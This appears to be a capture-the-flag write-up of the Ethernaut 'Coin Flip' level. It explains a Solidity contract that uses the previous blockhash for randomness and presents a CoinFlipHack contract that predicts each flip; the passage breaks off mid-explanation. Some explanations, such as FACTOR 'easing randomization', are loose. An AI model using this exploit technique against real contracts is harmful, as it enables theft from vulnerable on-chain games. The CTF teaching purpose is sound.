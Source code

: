 # Ethernaut Challenge 3 - Coin Flip


## Going through the code

```solidity
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```
Initially the contract declares these 3 variables. 

- The consecutiveWins is a variable that holds the value of how many coin flips we win continuously. 

- lastHash is a variable to record the hash of the previous block.

- FACTOR is an integer that helps in easing the randomization because randomization is not an easy task to do on the blockchain.


```solidity
  constructor() {
    consecutiveWins = 0;
  }
```
A constructor is an optional function that initializes state variables. In our case, we are initializing consecutiveWins as 0;

```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

Here comes the main part of the contract code - the function ```flip()```. This is a public function that returns the value true or false. We first have a ```uint256 blockValue = uint256(blockhash(block.number - 1));``` This blockValue is a typecasted blockhash of the previous block on the blockchain.

> blockhash - every block in a blockchain has a unique fingerprint and the blockhash is used for identifying that particular block.
> block.number gives us the current block > if we subtract 1, we are going to the previous block

We check if the hash of the previous block is the same as the current blockValue. If it is, then we revert the transaction.
Else we equate lastHash to the blockValue. 

In order to get the probability of the coinFlip, we are making a formula of the blockValue/FACTOR. This helps in making the  calculation of the randomization easier.

> FACTOR is just an integer that helps in easing the randomization

The bool side checks if the coinFlip is equal to 1. If it is equal to 1, side becomes true else ```side``` becomes ```false```.

Next we see if the side is equal to the __guess_ that is passed. In the case that it is equal, the consecutiveWins variable goes up by 1 and the function is returned as true. Else, the consecutiveWins is reset and becomes 0 and returns the function value as false.


# Solution
In order to override this contract, let's build another contract to hack this. 
I built the following contract on [Remix IDE](https://remix.ethereum.org/)

### CoinFlipHack.sol


```solidity
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipHack {
    CoinFlip public hackedContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    // _hackedContractAddr = 0xA91C791D56895210967d1ec7a69Fe4b8fc7a910e;

    constructor(address _hackedContractAddr) public {
        hackedContract = CoinFlip(_hackedContractAddr);
    }

    function flip() public returns (bool){
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = uint256(blockValue/FACTOR);
        bool side = coinFlip == 1 ? true : false;
        hackedContract.flip(side);
    }

}
```

So, how is this code overriding the main contract code?

We first import the previous contract by simply making another file copy pasting the code on there and naming it CoinFlip. 

After adding the import statement, let's build our CoinFlipHack smart contract code.
hackedContract is the public variable to represent the original contract.
We are using the same FACTOR from before.

We declare the constructor with the argument __hackedContractAddr__ which is of address type this address is the CoinFlip contract address that we will be deploying at. 



